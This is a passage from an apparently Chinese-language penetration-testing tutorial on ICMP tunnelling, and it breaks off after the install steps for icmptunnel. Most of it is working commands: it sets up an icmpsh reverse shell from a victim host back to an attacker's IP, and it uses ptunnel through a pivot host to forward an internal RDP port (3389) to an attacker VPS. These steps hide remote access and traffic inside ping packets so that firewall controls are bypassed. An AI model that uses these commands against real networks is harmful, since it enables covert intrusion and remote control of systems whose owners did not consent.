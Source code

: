 特点：简单，实用

原理：将 tcp/udp 数据封装到 icmp 的 ping 数据包中，从而建立通信

```
github：https://github.com/bdamele/icmpsh
```

**反弹 shell：**

关闭本地的 icmp 应答：

```
sysctl -w net.ipv4.icmp_echo_ignore_all=1
```

本地主机监听：

```
python icmpsh_m.py 192.168.75.131（本地ip） 192.168.75.132（受害者ip）
```

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODsYtXib5xhial9vibkicBOQogLn7eyNt92RDQvlmzf2iaH2XW9iasiaJRtDZfG4K8LvEHB0NuqC1AFhFDErw/640?wx_fmt=png)

在受害者主机运行：  

```
icmpsh.exe -t 192.168.75.131（攻击者）
```

**端口转发：**

使用的是：ptunnel kali 自带

需要安装一些依赖库

```
libpcap环境
libpcap依赖库
wget http://www.cs.uit.no/~daniels/PingTunnel/PingTunnel-0.72.tar.gz
```

在攻击 vps 上执行：  

```
ptunnel -p 182.17.13.17(跳板机外网ip) -lp 8888 -da 10.10.10.18（内网需要转发端口的ip） -dp 3389 -x Gamma
```

在跳板机上执行：

```
ptunnel -x Gamma
```

内网 10.10.10.18 3389 端口就被转发到攻击 vps 的 8888 端口了

**4.3 icmp 隧道搭建**

安装 icmptunnel

```
git clone https://github.com/jamesbarlow/icmptunnel.git
cd icmptunnel
make
```
